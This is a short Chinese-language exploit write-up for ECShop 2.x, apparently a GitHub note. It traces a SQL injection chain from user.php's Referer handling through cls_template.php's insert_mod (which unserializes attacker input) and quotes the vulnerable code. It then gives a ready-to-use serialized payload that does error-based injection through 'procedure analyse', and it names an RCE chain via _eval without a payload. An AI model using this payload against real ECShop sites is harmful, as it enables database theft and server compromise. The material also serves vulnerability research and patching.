 ## Ecshop 2.x 存在SQLi&&RCE

## SQli
### 利用链路：
user.php -> cls_template.php function dispaly -> cls_template.php function insert_mod -> function insert_*

### 缺陷代码：
```
user.php
num:302
if (empty($back_act))
    {
        if (empty($back_act) && isset($GLOBALS['_SERVER']['HTTP_REFERER']))
        {
            $back_act = strpos($GLOBALS['_SERVER']['HTTP_REFERER'], 'user.php') ? './index.php' : $GLOBALS['_SERVER']['HTTP_REFERER'];
        }
        ···
    }
···
    $smarty->assign('back_act', $back_act);
    $smarty->display('user_passport.dwt');
}
```

```
cls_template.php function dispaly()
···
foreach ($k AS $key => $val)
            {
                if (($key % 2) == 1)
                {
                    $k[$key] = $this->insert_mod($val);
                }
            }
            $out = implode('', $k);
···
```
```
cls_template.php
function insert_mod($name) // 处理动态内容
    {
        list($fun, $para) = explode('|', $name);
        $para = unserialize($para);
        $fun = 'insert_' . $fun;

        return $fun($para);
    }
```

### 利用

```
554fcae493e564ee0dc75bdf2ebf94caads为$_echash给定值
554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
$arr['id']带入function insert_ads($arr)中导致SQli

note:oder by limit .$arr['num'] procedure anaylse mysql < 5.6.6

```

### RCE
### 利用链路
function insert_ads() -> function fetch() ->fcuntion _eval

